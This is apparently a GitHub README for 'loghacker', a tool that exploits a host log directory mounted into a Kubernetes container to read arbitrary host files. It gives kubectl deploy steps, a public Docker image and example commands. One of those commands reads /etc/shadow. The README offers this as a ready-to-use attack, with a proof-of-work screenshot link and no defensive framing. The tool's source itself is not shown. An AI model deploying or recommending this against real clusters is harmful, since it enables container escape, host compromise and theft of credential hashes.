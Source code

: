 # mount-var-log-hacker

If /var/mount is mounted into a container, and the serviceaccount in the container has permission to read logs, the application in the container can read any file on the host.

binary name: loghacker

public build image : https://hub.docker.com/r/shadowstar884/loghacker

deploy steps:
```bash
# step 1: create ns and cluster role
kubectl apply -f hack/cluster-role.yaml

# step 2: deploy loghacker
kubectl apply -f hack/deploy-loghacker.yaml

# step 3: attach log-hacker
kubectl exec -it -n mount-log log-hacker -- bash

# step 4: 
./loghacker

# happy loghackerrrrrr

# ./loghacker ls /etc
# ./loghacker cat /etc/shadow

```

pow:

![cat-pow](https://github.com/awslshadowstar/mount-var-log-hacker/assets/52888924/55e6599a-1e8d-4824-953b-2464665d5ef5)
